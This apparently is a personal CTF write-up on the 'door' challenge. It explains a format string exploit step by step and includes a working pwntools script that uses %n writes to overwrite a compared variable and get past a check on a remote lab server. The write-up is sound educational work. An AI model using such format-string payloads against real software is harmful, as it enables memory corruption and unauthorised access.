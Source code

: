 ```yaml
---
title: "%X%x**ASLR**%x%X"
date: "2020-07-05 16:10:31.582772"
description: "Exploiting format string vulnerabilites, but with ASLR turned on this time"
categories: ["code"]
---
```


# %X%x**ASLR**%x%X

_- Atharv Damle _

## door

---

FLAG{REDACTED}

---

_A pretty simple fmt string exploit. I'm not too sure why the secret phrase to the door is **APES** though._

How to do it?

1. Write 4 bytes onto the stack, specifically, the 2nd position on the stack.
2. There is an if statement which compares a variable (with value '9447') with 'APES'. Now, if I edit the variable, I can get past the if.
3. 1 byte of padding: `b'A'` makes perfect

Here's some points I realized once I had completed it

1. Pushing all addresses onto the stack is a great idea, which would then mean I can access addresses on the stack contiguously (unlike the way I did here)

```
#!/usr/bin/python3

from pwn import *

#p = process('./door')
p = remote('plsdonthaq.me', 4001)

p.readuntil('way at ')
ptr = int(p.readuntil('\n', drop=True), 16)
ptr1 = p32(ptr)
ptr2 = p32(ptr + 1)
ptr3 = p32(ptr + 2)
ptr4 = p32(ptr + 3)

l1 = ptr1 + b'%60x%2$n' + ptr1 + ptr2 + b'       %6$n ' + ptr3 + ptr4 + b'%236x%10$n%14x%11$n'

p.sendline(b'A' + l1)
p.interactive()
```
